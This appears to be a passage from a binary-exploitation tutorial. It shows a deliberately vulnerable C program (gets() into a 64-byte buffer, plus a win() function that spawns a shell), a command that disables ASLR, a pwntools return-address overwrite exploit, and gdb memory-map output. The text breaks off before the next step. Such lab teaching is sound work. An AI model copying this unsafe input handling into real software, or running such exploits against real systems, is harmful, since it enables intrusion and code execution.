 # Exploitation

Let's take our previous program from the bof

{% file src="../../../../../.gitbook/assets/buffer-overflow.zip" %}

With source code

```c
#include <stdio.h>
#include <stdlib.h>

void win() {
    system("/bin/sh");
}

int main() {
    char buf[64];
    puts("What are you going to say?");
    gets(buf);
    puts("Thank you, have a nice day!");
    return 0;
}
```

We're going to want to turn off ASLR for this one

```c
 tango@arch  assets   master ±  echo 0 | sudo tee /proc/sys/kernel/randomize_va_space 
[sudo] password for tango: 
0
```

So originally, our plan of attack was

```python
from pwn import *

e = context.binary = ELF("./bof")
p = process(e.path)
libc = e.libc

payload = b"A"*72
payload += p64(e.symbols["win"])

p.sendline(payload)
p.interactive()
```

But now, let's change it up a bit. As the binary doesn't have NX enabled, we have some writable and executable pages. We can check this in gdb by using `vmmap in gef.`

```python
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/tango/git/gitbook/gitbook-learning/.gitbook/assets/bof
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/tango/git/gitbook/gitbook-learning/.gitbook/assets/bof
0x0000000000402000 0x0000000000403000 0x0000000000002000 r-- /home/tango/git/gitbook/gitbook-learning/.gitbook/assets/bof
0x0000000000403000 0x0000000000404000 0x0000000000002000 r-- /home/tango/git/gitbook/gitbook-learning/.gitbook/assets/bof
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/tango/git/gitbook/gitbook-learning/.gitbook/assets/bof
0x0000000000405000 0x0000000000426000 0x0000000000000000 rw- [heap]
0x00007ffff7dd3000 0x00007ffff7dd5000 0x0000000000000000 rw- 
```